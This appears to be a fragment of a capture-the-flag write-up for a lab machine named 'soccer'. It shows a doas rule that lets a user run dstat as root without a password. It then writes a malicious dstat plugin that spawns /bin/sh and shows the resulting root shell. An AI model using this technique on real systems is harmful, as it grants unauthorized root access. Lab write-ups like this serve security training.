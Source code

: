 #### Identify permission to run `dstat` as root
```
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

#### Spawn root shell with `dstat` plugin
```
player@soccer:~$ echo 'import os; os.system("/bin/sh")' > /usr/local/share/dstat/dstat_rootshell.py && \
> doas /usr/bin/dstat --rootshell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
```
